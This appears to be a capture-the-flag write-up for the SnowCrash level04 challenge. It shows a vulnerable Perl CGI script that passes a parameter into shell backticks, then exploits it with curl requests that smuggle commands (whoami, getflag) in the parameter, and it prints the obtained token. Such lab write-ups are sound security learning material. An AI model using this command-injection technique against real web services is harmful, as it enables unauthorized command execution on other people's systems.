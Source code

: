 ##LEVEL04

```
    level04@SnowCrash:~$ ls
    level04.pl
```


```
    level04@SnowCrash:~$ cat level04.pl 
    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html\n\n";
    sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
    }
    x(param("x"));
```

as we can see, we have a perl script that echos anything in parameter x
and we have a commented section **# localhost:4747** that indecate that there is a web server running on localhost:4747

```
    level04@SnowCrash:~$ cat /var/www/level04/level04.pl 
    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html\n\n";
    sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
    }
    x(param("x"));
```

we can check with curl

```
    level04@SnowCrash:~$ curl -d x=ss http://localhost:4747/level04.pl
    ss
```

```
    level04@SnowCrash:~$ curl -d x=\`whoami\` http://localhost:4747/level04.pl
    flag04
```

as we can see user flag04 is the one running the server on port 4747 so we can run getflag as flag04 user


```
    level04@SnowCrash:~$ curl -d x=\`getflag\` http://localhost:4747/level04.pl
    Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

```
su level04
password:ne2searoevaevoem4ov4ar8ap
```

